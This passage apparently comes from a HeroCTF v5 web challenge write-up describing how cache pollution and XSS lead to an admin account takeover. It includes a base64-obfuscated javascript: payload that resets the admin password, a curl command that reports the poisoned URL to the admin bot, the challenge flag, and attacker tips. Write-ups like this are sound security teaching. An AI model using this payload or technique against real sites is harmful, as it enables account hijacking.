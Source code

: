 ![alert](/images/heroctfv5/web/blog_my_admin_profile.png)

To ensure that the payload is properly interpreted, I performed an execution using a base64-encoded string:

```javascript
javascript:eval(atob(/ZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ3VzZXJuYW1lJykudmFsdWU9J2FkbWluJztkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgnbmV3X3Bhc3N3b3JkJykudmFsdWU9J2NyYWNrZWQnO2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCduZXdfcGFzc3dvcmRfY29uZmlybScpLnZhbHVlPSdjcmFja2VkJztkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgnc3VibWl0JykuY2xpY2soKTs=/.source))
```

The cache was updated with this payload, and the `admin` account now has the same custom URL as mine.

> Note: We can verify that cache pollution works by creating another `admin` account with a letter or more in uppercase. With this account, when visiting its profile, we can see that the author's website custom URL is the one defined earlier on the other account.

If I send the URL `/profile#author-website` as a report to the administrator, their password will be changed to `cracked`.

```bash
curl -X POST -d "url=http://localhost:5000/profile#author-website" http://dyn-02.heroctf.fr:12077/post/report
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```

The administrator has been notified of my report, and their password has been changed.

> **Important**: The URL must be sent to the admin within 60 seconds after polluting the cache; otherwise, the cache will expire, and the URL containing the payload will not be retrieved.

We can now log in with the username `admin` and the password `cracked`:

![alert](/images/heroctfv5/web/blog_admin_logged.png)

Flag: `Hero{very_n1ce_move_into_c4che}`

## Tips & Tricks

- Always refer to the documentation of the functions used in the source code when testing for an injection.
- Look into the source code of the pages.
- The `SESSION_COOKIE_HTTPONLY` parameter allows restricting access to the session cookie in JavaScript on Django.
- When unable to access cookies during an XSS (Cross-Site Scripting) attack, find alternative ways to access the account, such as changing the administrator's password.
- Verify how access controls are implemented on the pages.
- Check how caching is managed and its lifespan.